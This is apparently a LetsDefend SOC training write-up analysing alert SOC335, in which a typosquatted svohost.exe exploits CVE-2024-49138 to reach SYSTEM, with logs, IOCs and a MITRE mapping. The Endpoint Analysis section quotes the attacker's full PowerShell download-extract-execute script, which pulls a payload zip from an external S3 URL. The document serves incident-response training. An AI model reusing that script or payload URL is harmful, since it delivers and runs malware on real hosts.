# SOC335 — CVE-2024-49138 Exploitation Detected

| Field | Value |
| --- | --- |
| **Platform** | LetsDefend |
| **Alert ID** | SOC335 |
| **Alert Time** | January 22, 2025 — 02:37 PM |
| **Category** | Privilege Escalation / Malware Execution |
| **Verdict** | True Positive — Host Compromised |
| **Status** | Closed |

---

## Executive Summary

An EDR alert fired on host `Victor` (`172.16.17.207`) for a suspicious process `svohost.exe`, a one-letter typosquat of the legitimate `svchost.exe`, dropped to `C:\temp\service_installer\` and executed via PowerShell. The file hash matched a known sample tagged for CVE-2024-49138, a Windows Common Log File System (CLFS) driver privilege escalation vulnerability patched in December 2024. The full execution chain is confirmed: a PowerShell script downloaded and extracted a password-protected zip from an external S3 URL, ran svohost.exe, and escalated to `NT AUTHORITY\SYSTEM` within minutes. A separate RDP brute force event from `185.107.56.141` arrived roughly four hours after the malware already executed and is unrelated to the initial access vector. How the malware arrived on the host in the first place was not determined from available logs. The host was contained.

---

## Kill Chain

### 1. Hash Verification

The alert provided the file hash `b432dcf4a0f0b601b1d79848467137a5e25cab5a0b7b1224be9d3b6540122db9` for `svohost.exe`.

| Source | Result |
| --- | --- |
| LetsDefend TI | Hash found, tagged `CVE-2024-49138`, submitted anonymously on 2026-06-10. |
| VirusTotal | 50/71 vendors flagged the file as malicious. Tags: `pivot`, `exploit`, `spreader`, `cve-2024-49138`, `idle`, `64bits`, `detect-debug-environment`. File type: Win64 EXE, PE32+, PE64. Compiler: Microsoft Visual C++. Matching name: `svohost.exe`. Community score negative. |

CVE-2024-49138 is a privilege escalation vulnerability in the Windows Common Log File System (CLFS) driver. It was disclosed and patched by Microsoft in December 2024. Successful exploitation allows a local attacker to escalate from a standard user context to `NT AUTHORITY\SYSTEM` without any additional user interaction after execution. The endpoint evidence below confirms this escalation happened on Victor's host.

`svohost.exe` is a deliberate typosquat of `svchost.exe`, the legitimate Windows Service Host process. The real `svchost.exe` lives in `C:\Windows\System32\`. This binary was dropped to `C:\temp\service_installer\svohost.exe`, a user-writable temp directory with no relation to any legitimate Windows service path. That path choice is part of the masquerading, it looks plausible at a quick glance but doesn't survive a second look.

VirusTotal's Behavior tab shows the sandbox activity including: DNS resolutions to `res.public.onecdn.static.microsoft` and `www.microsoft.com`, IP traffic to Microsoft-owned ranges, dropped files, and MITRE techniques flagged across Execution, Stealth, Discovery, and Command and Control categories. The Microsoft DNS resolutions are almost certainly the malware checking for an internet connection or performing anti-analysis checks rather than legitimate Microsoft traffic.





---

### 2. Delivery Vector

No delivery vector was identified for the initial execution at approximately 14:30. The terminal history shows a PowerShell command running at 14:37:10 that downloaded `service-installer.zip` from an external URL, but what triggered that PowerShell execution in the first place isn't visible in the available logs. There is no email event, no browser download, and no inbound connection at 14:xx that explains how the attacker got code running on Victor's machine before that point. This is an open gap that needs hands-on forensics to resolve.

---

### 3. SIEM Log Analysis

Searched Log Management using host IP `172.16.17.207`. Two distinct event clusters returned.

**Cluster 1 — Incident timeframe (January 22, 2025, 14:xx):**

No inbound connection logs at 14:xx. The network activity at this time is entirely outbound from Victor's host, visible through the endpoint's network action tab rather than SIEM firewall logs.

**Cluster 2 — RDP brute force (January 22, 2025, 18:35):**

| Date | Type | Source | Src Port | Destination | Dst Port |
| --- | --- | --- | --- | --- | --- |
| 2025-01-22 18:35:22 | Firewall | 185.107.56.141 | 45762 | 172.16.17.207 | 3389 |
| 2025-01-22 18:35:22 | Firewall | 185.107.56.141 | 16044 | 172.16.17.207 | 3389 |
| 2025-01-22 18:35:22 | Firewall | 185.107.56.141 | 59820 | 172.16.17.207 | 3389 |
| 2025-01-22 18:35:22 | Firewall | 185.107.56.141 | 44149 | 172.16.17.207 | 3389 |
| 2025-01-22 18:35:22 | Firewall | 185.107.56.141 | 21905 | 172.16.17.207 | 3389 |
| 2025-01-22 18:35:43–50 | OS | 185.107.56.141 | 0 | 172.16.17.207 | 0 |

Raw logs confirm failed login attempts against the `admin` and `guest` accounts (EventID 4625, error code `0xC000006D` — Unknown username or bad password), followed by a successful login as `Victor` (EventID 4624, Logon Type 10 — RemoteInteractive).

This cluster happened roughly four hours after the malware already executed at 14:xx. The RDP brute force did not enable the initial access. It is a separate event on the same host, likely the attacker returning or a second actor, and it needs its own investigation. It is documented here because it's on the same host, but it is not part of this alert's execution chain.









---

### 4. Endpoint Analysis (EDR)

Checked Victor's host (`172.16.17.207`, Windows 10, 64-bit, Primary User: letsdefend, Last Login: 2025-01-22 16:00:00) in Endpoint Security.

**Browser History:** Ten entries, all from January 21, 2025 between 12:15 and 12:27. Normal browsing: Reddit, Twitter, Slack, Instagram, Wikipedia, Spotify. Nothing suspicious, and nothing from the incident date of January 22.

**Network Action:** Twelve entries across two pages, all timestamped January 22, 2025 between 14:32 and 14:40. Destinations include `169.254.169.254` (AWS instance metadata endpoint, commonly queried by malware running in cloud environments to check its context), `146.75.78.172`, `23.62.141.251`, `52.165.164.15`, `40.83.50.87`, `52.219.102.138`, `172.31.4.60`, `34.104.35.123`, and `127.0.0.1`. Several of these resolve to AWS and CDN infrastructure, consistent with the S3 payload download. None are flagged individually, but the timing and volume of connections at exactly 14:32-14:40 align directly with the PowerShell execution below.

**Terminal History:** Five entries, all January 22, 2025:

| Time | Command |
| --- | --- |
| 14:37:59 | `"C:\Windows\system32\whoami.exe"` |
| 14:37:10 | PowerShell download and execute script (full command below) |
| 14:36:38 | `"C:\Windows\system32\whoami.exe"` |
| 14:36:26 | `"C:\Windows\system32\whoami.exe" /priv` |

The full PowerShell command at 14:37:10:

```powershell
$url = 'https://files-id.s3.us-east-2.amazonaws.com/service-installer.zip'
$dest = 'C:\temp\service-installer.zip'
$extractPath = 'C:\temp'
$password = 'infected'
if (-not (Test-Path $extractPath)) { New-Item -ItemType Directory -Path $extractPath -Force | Out-Null }
Invoke-WebRequest -Uri $url -OutFile $dest
$7zipPath = 'C:\Program Files\7-Zip\7z.exe'
Start-Process $7zipPath -ArgumentList "x -p$password $dest -o$extractPath -Force" -FilePath $7zipPath -Wait -PassThru
Remove-Item $dest
Start-Process -FilePath "$extractPath\service_installer\svohost.exe"
```

This script downloads `service-installer.zip` from an S3 bucket, creates `C:\temp` if it doesn't exist, extracts the zip using 7-Zip with the hardcoded password "infected," deletes the zip file after extraction to remove evidence of the download, then runs `svohost.exe`. The zip deletion is intentional cleanup, not incidental. The `whoami.exe` and `whoami.exe /priv` calls before and after are the attacker checking their current user context and privilege level before and after svohost.exe ran.

**Processes (44 total, 5 pages):** The relevant entries:

| Time | PID | Process | Parent | Note |
| --- | --- | --- | --- | --- |
| 14:35:06 | 108 | services.exe | wininit.exe | Standard Windows boot chain |
| 14:35:51 | 588 | smss.exe | ntoskrnl.exe | Standard Windows boot chain |
| 14:35:52 | 964 | winlogon.exe | smss.exe | Standard Windows boot chain |
| 14:35:52 | 1376 | svchost.exe | services.exe | Standard Windows boot chain |
| 14:36:06 | 6700 | explorer.exe | userinit.exe | User session started |
| 14:36:39 | 7752 | powershell.exe | explorer.exe | PowerShell launched from Explorer as `EC2AMAZ-ILGVOIN\Victor` |
| 14:37:12 | 7640 | svohost.exe | powershell.exe | **Malicious binary**, hash confirmed, path `C:\temp\service_installer\svohost.exe`, Process User `EC2AMAZ-ILGVOIN\Victor` |
| 14:37:12 | 7752 | powershell.exe | explorer.exe | Target command: `C:\temp\service_installer\svohost.exe` |
| 14:37:53 | 1080 | svchost.exe | services.exe | Process User: **NT AUTHORITY\SYSTEM** |
| 14:37:59 | 6528 | powershell.exe | svohost.exe | Process User: **NT AUTHORITY\SYSTEM** |
| 14:38:06 | 3368 | MsMpEng.exe | services.exe | Windows Defender engine |
| 14:38:06 | 4292 | MpCmdRun.exe | MsMpEng.exe | Defender command runner, Process User: **NT AUTHORITY\SYSTEM** |
| 14:38:43 | 4380 | MpCmdRun.exe | MsMpEng.exe | Target: `\??\C:\Windows\system32\conhost.exe 0xffffffff -ForceV1` |

The escalation is visible in the process chain. `svohost.exe` runs as `EC2AMAZ-ILGVOIN\Victor` at 14:37:12. By 14:37:53, `svchost.exe` is running under `NT AUTHORITY\SYSTEM` with svohost.exe in its parent chain, and by 14:37:59 PowerShell is spawning from svohost.exe also as `NT AUTHORITY\SYSTEM`. The CLFS exploit completed within roughly 40 seconds of svohost.exe launching.

The `conhost.exe 0xffffffff -ForceV1` command appearing in MpCmdRun's target process command line is a known technique associated with privilege escalation tooling, it forces the legacy console host to suppress the console window, used to run commands silently.

Confirm the attacker gained access to `NT AUTHORITY\SYSTEM` through this chain, and acknowledge that not all 44 process entries could be captured in the screenshots.













---

## Containment & Remediation

**Containment**

- Host `Victor` (`172.16.17.207`) was isolated via the EDR platform.

**Remediation**

- Escalate to Tier 2 for full forensic investigation and reimaging. The attacker reached `NT AUTHORITY\SYSTEM` and the delivery vector for the initial execution is unknown, the scope of what they did with SYSTEM access cannot be assessed from EDR logs alone.
- Apply the Microsoft patch for CVE-2024-49138 across all Windows endpoints immediately if not already done. This vulnerability was patched in December 2024.
- Block `185.107.56.141` at the perimeter firewall. The RDP brute force from this IP succeeded in logging in as Victor four hours after the malware ran, which is a separate but confirmed incident on the same host.
- Block `https://files-id.s3.us-east-2.amazonaws.com/service-installer.zip` at the web proxy. The S3 bucket may still be active.
- Disable RDP on hosts that don't require it. Port 3389 being externally accessible is what allowed the brute force attempt to land at all.
- Investigate the unknown delivery vector. How PowerShell ran at 14:37 without an identifiable trigger needs to be answered before the host is returned to service.
- Identify and investigate any other hosts the attacker may have accessed after gaining SYSTEM on Victor's machine, particularly given the 4-hour window between the malware execution and the RDP login.

---

## Playbook Notes

**Score was 15% despite 100% playbook completion.** The investigation covered all playbook steps correctly, but the platform score doesn't reflect that. The most likely cause is missing artifact entries. The platform's MITRE list included T1055 (Process Injection) which wasn't confirmed from available logs, and artifact fields for the process path or filename may have been expected separately. Documented here rather than ignored.

**Delivery vector unknown.** The PowerShell execution at 14:37 has no identifiable inbound trigger in the available SIEM or EDR logs. What put the attacker in a position to run that command on Victor's host at 14:xx is unresolved.

**RDP brute force is a separate incident.** The `185.107.56.141` activity at 18:35, including the successful Victor login, happened four hours after the malware already ran. It is not the cause of the initial compromise. It needs its own case.

**44 processes, partial capture.** The process list had 44 entries across 5 pages. Not all were captured in screenshots. The entries documented above are the ones directly relevant to the execution and escalation chain.

---

## Indicators of Compromise (IOCs)

| Type | Value | Note |
| --- | --- | --- |
| File Hash (SHA-256) | `b432dcf4a0f0b601b1d79848467137a5e25cab5a0b7b1224be9d3b6540122db9` | svohost.exe, 50/71 VT detections, CVE-2024-49138 |
| Malicious Process | `svohost.exe` | Typosquat of svchost.exe, dropped to `C:\temp\service_installer\` |
| Payload URL | `https://files-id.s3.us-east-2.amazonaws.com/service-installer.zip` | Second-stage payload download |
| Brute Force IP | `185.107.56.141` | RDP brute force at 18:35, separate from malware execution chain |

---

## MITRE ATT&CK Mapping

| Tactic | Technique | Note |
| --- | --- | --- |
| Execution | T1059.001 — Command and Scripting Interpreter: PowerShell | PowerShell used to download, extract, and execute svohost.exe |
| Defense Evasion | T1036.005 — Masquerading: Match Legitimate Name or Location | svohost.exe typosquats svchost.exe |
| Defense Evasion | T1027 — Obfuscated Files or Information | Password-protected zip delivery of svohost.exe |
| Defense Evasion | T1070.004 — Indicator Removal: File Deletion | Zip archive deleted post-extraction to remove download evidence |
| Privilege Escalation | T1068 — Exploitation for Privilege Escalation | CVE-2024-49138, CLFS driver exploit, escalated to NT AUTHORITY\SYSTEM |
| Privilege Escalation | T1548 — Abuse Elevation Control Mechanism | Confirmed SYSTEM-level process execution post-exploitation |
| Execution / Injection | T1055 — Process Injection | Listed by platform, not independently confirmed from available logs |
| Discovery | T1082 — System Information Discovery | whoami and whoami /priv calls post-execution |
| Command and Control | T1071.001 — Application Layer Protocol: Web Protocols | Payload retrieved over HTTPS from S3 |
| Credential Access | T1110 — Brute Force | RDP brute force from 185.107.56.141 at 18:35, separate incident |

---

